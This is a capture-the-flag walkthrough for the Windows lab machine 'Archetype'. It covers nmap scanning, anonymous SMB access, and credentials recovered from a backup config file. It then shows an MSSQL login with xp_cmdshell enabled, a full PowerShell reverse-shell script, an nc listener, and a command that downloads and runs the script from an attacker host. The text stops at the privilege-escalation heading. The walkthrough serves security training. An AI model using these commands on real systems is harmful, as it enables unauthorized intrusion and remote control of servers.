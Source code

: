 # Archetype
AUTHOR: egre55
## Discription
Difficulty: Very Easy

OS: Windows
## Walkthrough
### 1. Enumeration
First, take some scanning on host:
```bash
$ nmap -sC -sV 10.10.10.27
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 10:44 +07
Nmap scan report for 10.10.10.27
Host is up (1.3s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1234/tcp open  hotline?
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-09-12T02:39:54
|_Not valid after:  2051-09-12T02:39:54
|_ssl-date: 2021-09-12T04:10:04+00:00; +24m51s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows                                                
Host script results:
|_clock-skew: mean: 1h48m51s, deviation: 3h07m51s, median: 24m50s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-11T21:09:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-12T04:09:45
|_  start_date: N/A
```
As we can see, there are 5 open ports 135, 139, 445, 1234, 1433 and we also got some additional information such as domain, OS, Server version,...

Do a bit research about these ports and I found that:
- 135: MS-RPC endpoint mapper
- 139: NetBIOS Session Service
- 445: SMB protocol *(further reading here [NetBIOS and SMB Penetration Testing on Windows](https://www.hackingarticles.in/netbios-and-smb-penetration-testing-on-windows/))*
- 1234: I still have no idea what is this port used for :v *([TCP 1234 - Port Protocol Information and Warning!](https://www.auditmypc.com/tcp-port-1234.asp))*
- 1433: MS-SQL Server

Access SMB
```bash
$ smbclient -N -L \\\\10.10.10.27\\

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available

$ smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 19:20:57 2020
  ..                                  D        0  Mon Jan 20 19:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 19:23:02 2020

                10328063 blocks of size 4096. 8260225 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
```

Take a look at downloaded file
```bash
$ cat prod.dtsConfig 
<DTSConfiguration>
	<DTSConfigurationHeading>
		<DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
	</DTSConfigurationHeading>
	<Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
		<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	</Configuration>
</DTSConfiguration>
```

[DTSCONFIG File Extension](https://fileinfo.com/extension/dtsconfig)

Get credential
```sql_svc:M3g4c0rp123```

### 2. Foothold
Access SQL Server
```bash
$ mssqlclient.py -p 1433 ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

Explore SQL
```bash
SQL> enable_xp_cmdshell
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
archetype\sql_svc

SQL> select is_srvrolemember ('sysadmin');

-----------
          1		==> User has system admin privilege!

SQL> 
```

Prepare reverse shell script
[Shells - Windows](https://book.hacktricks.xyz/shells/shells/windows)
Save this as shell.ps1
```bash
$client = New-Object System.Net.Sockets.TCPClient("<attacker_ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Get known .ps1 file
[PS1 File Extension](https://fileinfo.com/extension/ps1)
[Differences between commands run in .bat file and powershell.exe](https://stackoverflow.com/questions/48215483/differences-between-commands-run-in-bat-file-and-powershell-exe)

Open http server for SQL Server to get the script
```bash
$ python3 -m http.server 8080
```

Open listening port for catching reverse shell
```bash
$ nc -lnvp <port>
```

Execute reverse shell from SQL Server
```bash
SQL> xp_cmdshell "powershell "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>:8080/shell.ps1')""
```

### 3. Privilege Escalation
